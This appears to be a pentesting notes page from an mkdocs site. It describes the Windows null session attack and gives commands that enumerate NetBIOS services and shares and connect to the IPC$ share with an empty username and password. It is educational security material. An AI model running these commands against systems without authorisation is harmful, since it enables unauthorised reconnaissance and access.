

repository: amandaguglieri/hackinglife · page: windows-null-session-attack/index.html · generator: mkdocs

---
title: Windows Null session attack
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting windows 
---
# Windows Null session attack

It’s used to enumerate info (password, system users, system groups. running system processes). A null session attack exploits an authentification vulnerability for Windows Administrative Shares. This lets an attacker connect to a local or remote share without authentification.

## Manually from Windows

1.  **Enumerate File Server services**:    

```cmd
nbtstat -A $ip  

# ELS-WINXP   <00>   UNIQUE   Registered
# <00> tells us ELS-WINXP is a workstation.
# <20> says that the file sharing service is up and running on the machine
# UNIQUE tells us that this compiter must have only one IP address assigned
```

2.  **Enumerate Windows Shares**. Once we spot a machine with the File Server service running, we can enumerate:

```
NET VIEW $ip
```

3.  Verify if a null attack is possible by exploiting the IPC$ administrative share and trying to connect without valid credentials.

```
NET USE \\$ip\IPC$ ‘’ /u:’’
```

This tells Windows to connect to the IPC$ share by using an empty password and a empty username. It only works with IPC$ (not c$).
